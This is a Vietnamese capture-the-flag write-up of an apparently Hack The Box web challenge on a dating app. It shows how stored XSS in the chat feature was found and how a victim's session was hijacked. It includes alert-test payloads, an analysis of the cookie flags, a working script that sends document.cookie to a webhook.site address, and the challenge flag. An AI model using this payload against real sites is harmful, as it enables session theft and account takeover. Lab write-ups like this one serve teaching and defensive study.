







#### Challenge Scenario
Dating and matching can be exciting especially during Valentine's, but it’s important to stay vigilant for impostors. Can you help identify possible frauds?
## Attack Chain
### Recon
Chúng ta truy cập vào trang web nhưng không có account đăng nhập, đành phải regis một account


Sau khi đăng nhập thì chúng ta thấy trang web gồm nhiều card 

Sau khi quẹt trái quẹt phải thì người match sẽ được kết nối với chúng ta qua một ô chat

Tôi có thử nhập payload thì kết quả có vẻ được xử lý
```url
<h1> Hello </h1>
```
Khả năng trang web này có thể dính xss nên chúng ta thử một payload
```xss
<script>alert(1)</script>
```


Chúng ta kiểm tra cookie hiện có


|Field|Value|Ý nghĩa|
|---|---|---|
|**HttpOnly**|**false**|JavaScript (`document.cookie`) đọc được cookie này|
|**Secure**|**false**|Cookie gửi qua cả HTTP lẫn HTTPS, không bắt buộc HTTPS|
|**SameSite**|_(trống)_|Không giới hạn cross-site — request từ site khác vẫn gửi cookie|

**Tại sao steal được:**
- `HttpOnly = false` là yếu tố quyết định. Khi flag này tắt, bất kỳ JavaScript nào chạy trên trang đều gọi được `document.cookie` và đọc ra giá trị session token `eyJ1c2V...`. Nếu flag này là `true`, browser sẽ chặn JavaScript truy cập cookie — lúc đó dù XSS thành công cũng không lấy được cookie.
- `Secure = false` nghĩa là cookie truyền qua HTTP không mã hóa, nên payload gửi cookie về server HTTP sẽ không bị browser chặn.
- `SameSite` trống nên browser không ngăn cookie bị gửi kèm trong cross-origin request.
### Trộm Cookie
Mục tiêu lúc này chúng ta sẽ promt script để người gửi cookie về web hook của chúng ta.
```xss
<script>new Image().src="https://webhook.site/d7e4c2e1-de33-46ad-9f6f-bb3af2f551df/?c="+document.cookie</script>
```


Chúng ta sẽ thu được 2 cookie vì chính browser của chúng ta cũng chạy lệnh trên. Chúng ta thay thế cookie của chúng ta bằng cookie chiếm được


> HTB{d0nt_trust_str4ng3r5_bl1ndly}